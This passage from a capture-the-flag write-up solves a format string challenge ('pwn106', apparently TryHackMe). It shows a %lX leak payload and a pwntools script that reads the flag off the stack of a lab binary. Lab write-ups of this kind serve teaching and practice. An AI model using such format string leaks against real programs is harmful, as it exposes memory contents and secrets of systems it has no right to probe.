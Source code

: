 We can clearly see the `format string` vulnerability here.

How do we solve it? Let us try to input some format string code to the binary. In this case, we will be using `%lX` which stands for `long-hexadecimal`. 

```bash
%lX-%lX-%lX-%lX-%lX-%lX-%lX-%lX-%lX-%lX-%lX-%lX
```

![Desktop View](/assets/posts/pwn/image38.png){: width="700" height="500" }

Now, let us see whether the flag is presented on the stack or not. One fast way is to use `cyberchef` to swap the `endianness` and print to `ascii` format.

![Desktop View](/assets/posts/pwn/image39.png){: width="700" height="500" }

As we can see, at the `6th hexadecimal`, it show the flag format `THM`.

You can also write a pwntool exploit to solve:

```python
from pwn import *

context.binary = binary = "./pwn106"

payload = "%6$lX.%7$lX.%8$lX.%9$lX"

p = process()
#p = remote("0.0.0.0", 9006)
p.recv()
p.sendline(payload)

output = p.recv().strip().split(b" ")[1].split(b".")

for word in output:
    print(bytes.fromhex(word.decode("utf-8"))[::-1])
```

In case you did not receive the full flag, just keep adding the format string payload. Example below:

```python
payload = "%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"
```
